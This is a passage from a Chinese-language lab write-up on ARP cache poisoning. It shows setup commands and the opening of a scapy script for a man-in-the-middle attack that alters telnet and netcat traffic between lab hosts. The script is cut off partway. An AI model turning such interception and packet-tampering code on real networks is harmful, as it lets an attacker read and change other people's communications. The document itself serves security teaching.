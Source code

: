 接下来关闭转发，并启动中间人攻击

```
sysctl net.ipv4.ip_forward=0
```

![image-20220505225535547](ARPCachePoisoning/image-20220505225535547.png)

启动后，无论我们输入什么，telnet上始终显示Z。这也是脚本处的输出也能印证。

![image-20220505225812869](ARPCachePoisoning/image-20220505225812869.png)

> **Telnet的行为**：在Telnet中，通常情况下，我们在Telnet窗口中键入的每个字符都会触发一个单独的TCP数据包，但如果您键入得非常快，一些字符可能会在同一个数据包中一起发送。这就是为什么在从客户端到服务器的典型Telnet数据包中，有效负载只包含一个字符。发送到服务器的字符将被服务器回显，然后客户端将在其窗口中显示该字符。因此，我们在客户端窗口中看到的并不是打字的直接结果；无论我们在客户端窗口中键入什么，在显示之前都要经过一个往返过程。如果网络断开，在网络恢复之前，我们在客户端窗口中键入的内容都不会显示。类似地，如果攻击者在往返过程中将字符更改为Z，则Z将显示在Telnet客户端窗口中，即使您输入的不是Z。

## 任务3：基于ARP缓存中毒对Netcat进行中间人攻击

> 此任务与任务2类似，只是主机A和B使用netcat而不是telnet进行通信。主机M想要拦截它们的通信，因此它可以更改A和B之间发送的数据。您可以使用以下命令在A和B之间建立netcat TCP连接：

```bash
On Host B (server, IP address is 10.9.0.6), run the following:
# nc -lp 9090

On Host A (client), run the following:
# nc 10.9.0.6 9090
```

> 一旦建立了连接，您可以在A上键入消息。每行消息将被放入发送给B的TCP数据包中，B只显示消息。你的任务是用a序列替换消息中出现的每个名字。序列的长度应该与名字的长度相同，否则你会弄乱TCP序列号，从而弄乱整个TCP连接。你需要使用真实的名字，这样我们知道工作是由你完成的。

在任务二的基础上，依旧是要一直运行欺骗脚本，也有可能你压根没中断运行。

接着我们编写中间人攻击脚本。

```python
#!/usr/bin/env python3
from scapy.all import *

# We Only use ip
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"


print("********** MITM attack on Netcat **********")


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

```